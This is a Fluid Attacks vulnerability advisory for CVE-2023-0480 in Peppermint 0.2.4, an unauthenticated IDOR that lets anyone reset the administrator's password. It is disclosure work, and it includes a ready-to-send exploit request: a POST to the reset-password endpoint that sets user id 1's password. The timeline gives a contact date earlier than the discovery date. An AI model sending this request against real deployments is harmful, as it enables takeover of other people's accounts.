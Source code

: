 ```yaml
---
slug: advisories/sharp/
title: Peppermint 0.2.4 - Account Takeover via IDOR
authors: Carlos Bello
writer: cbello
codename: sharp
product: Peppermint 0.2.4
date: 2023-02-06 12:00 COT
cveid: CVE-2023-0480
severity: 9.8
description: Peppermint 0.2.4 - 0 Click Account Takeover via unauthenticated IDOR
keywords: Fluid Attacks, Security, Vulnerabilities, Peppermint, Account Takeover
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                      |
| --------------------- | -------------------------------------------------------------------- |
| **Name**              | Peppermint 0.2.4 - 0 Click Account Takeover via unauthenticated IDOR |
| **Code name**         | [Sharp](https://en.wikipedia.org/wiki/Ten_Sharp)                     |
| **Product**           | Peppermint                                                           |
| **Affected versions** | 0.2.4                                                                |
| **State**             | Public                                                               |
| **Release Date**      | 2023-02-06                                                           |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | Insecure object reference                                                                              |
| **Rule**              | [013. Insecure object reference](https://docs.fluidattacks.com/criteria/vulnerabilities/013)           |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H                                                               |
| **CVSSv3 Base Score** | 9.8                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0480](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0480)                          |

## Description

Peppermint version 0.2.4 allows an unauthenticated external attacker
to change the instance administrator's password. This is possible because
the application exposes a critical endpoint without authentication, and
because it is vulnerable to IDOR.

## Vulnerability

This vulnerability occurs because the application exposes a critical endpoint
without authentication, and because it is vulnerable to IDOR.

### Exploit

To exploit this vulnerability, we only need to send a request like the following
to the server.

```txt
POST /api/v1/users/resetpassword HTTP/1.1
Host: vulnerable.com
User-Agent: Fluid Attacks
Content-Type: application/json
Content-Length: 26
Connection: close

{"password":"hacked","id":1}
```

## Evidence of exploitation

![code_ato](https://user-images.githubusercontent.com/51862990/214393425-126be754-ffb9-4bf8-aca0-4190b94f70c2.png)

![request_ato](https://user-images.githubusercontent.com/51862990/214393489-e8b83865-a813-44ba-8806-d6733581824f.png)

![0_click_ato](https://user-images.githubusercontent.com/51862990/214393767-bbfb42f7-72d7-495d-a469-ba019b562f5d.gif)

## Our security policy

We have reserved the ID CVE-2023-0480 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Peppermint 0.2.4

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Peppermint-Lab/peppermint/>

## Timeline

<time-lapse
  discovered="2023-01-24"
  contacted="2022-01-24"
  replied=""
  confirmed=""
  patched=""
  disclosure="2023-02-06">
</time-lapse>

